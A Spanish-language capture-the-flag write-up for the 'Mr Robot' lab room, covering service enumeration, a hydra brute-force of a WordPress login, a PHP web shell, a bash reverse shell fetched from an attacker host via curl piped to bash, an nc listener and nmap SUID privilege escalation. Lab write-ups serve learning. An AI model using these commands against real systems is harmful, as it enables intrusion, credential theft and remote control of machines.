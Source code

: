 
# MR Robot Room

## Detalles de vulnerabilidades
- Se enumeran los servicios de la maquina y se obtiene la siguiente información
    - Servicio SSH en el puerto 22
    - Servicio http con Apache en el puerto 80
    - Servicio http con Apache en el puerto 443
- Se enumeran las rutas ocultas haciendo uso de `gobuster`
- Se encuentra el archivo de `robots.txt`
- El archivo de `robots.txt` contenia una flag y una `wordlist`
- Se reduce el tamaño de la `wordlist` eliminando palabras repetidas.
- Se encuentra una pagina de login que hace uso de `wordpress`.
- bajo un analisis de `nikto` se detecta que la pagina es vulnerable al acceso mediante fuerza bruta
- Se usa `hydra` para obtener las credenciales del usuario de Elliot usando la nueva `wordlist` filtrada.
- se obtiene las credenciales de Elliot y se accede a la página de administración de `wordpress`
- Se altera una ruta que hace uso de `php` y se inyecta código malicioso para poder generar una `reverse tcp shell`
- Se encuentra que `nmap` tiene permisos especiales, a partir de ello se puede obtener una shell con privilegios


## Comandos o código utilizado
Conociendo de nombre de usuario a Elliot, dado que el login es vulnerable a fuerza bruta se hace uso de Hydra para obtener las credenciales.
> `sudo hydra -l Elliot -P ~/new_dsocity.dic 10.10.55.47 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"`

Modificar los archivos de php existentes y agregar una de las siguientes opciones

**OPCIÓN 1**
> Agregar payload completo para crear una reverse shell: https://github.com/Wh1ter0sEo4/reverse_shell_php/blob/main/reverse_shell.php
 
**FIN OPCIÓN** 

**OPCIÓN 2**
Agregar la siguiente linea y proceder a ejecutar los comandos desde la URL
> `echo '<?php system($_GET["cmd"]); ?>' > shell.php`

Crear archivo `shell.sh` para ejecutar el `Reverse TCP Shell`
```
#!/bin/bash
bash -i >& /dev/tcp/<IP-ATACANTE>/4444 0>&1  
```
Hospedar archivo `shell.sh`
> `python -m http.server 8001`

Escuchar por conexiones
> `nc -nvlp 4444`

Navegador al siguiente url:
> `http://<DOMINIO/HOST>/<RUTA>/shell.php?cmd=curl <IP-ATACANTE>:8001/shell.sh|bash`

**FIN OPCIÓN** 

Estabilizar la Shell 
> `python -c 'import pty;pty.spawn("/bin/bash")'`

Mas información para Estabilizar la Shell 
> https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal

Encontrar archivos con permisos especiales
> `find / -perm +6000 2>/dev/null | grep '/bin/'`

Escalar privilegios con nmap con permisos especiales
```
nmap --interactive
nmap> !sh
```
Recurso para escalación de privilegios
> https://gtfobins.github.io/
